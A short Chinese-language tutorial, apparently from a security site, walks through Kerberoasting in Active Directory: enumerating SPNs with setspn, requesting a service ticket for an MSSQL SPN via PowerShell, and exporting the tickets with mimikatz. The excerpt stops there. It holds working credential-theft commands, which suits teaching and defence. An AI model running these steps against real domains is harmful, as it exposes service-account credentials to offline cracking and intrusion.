 Kerberoast是用于攻击MS Kerberos实现的一系列工具

用系统内置的工具setspn提取出所有的spn

```
> setspn  -Q */*
```

![image-20191108125229577](img/TGS_REQ_ANQUANKE/image-20191108125229577.png)

请求票据

```
> Add-Type -AssemblyName System.IdentityModel  
> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sqlserver.jmu.com:1433"  
```

![image-20191108125257608](img/TGS_REQ_ANQUANKE/image-20191108125257608.png)

从 Mimikatz 里面提取票据

```
mimikatz # kerberos::list /export
```
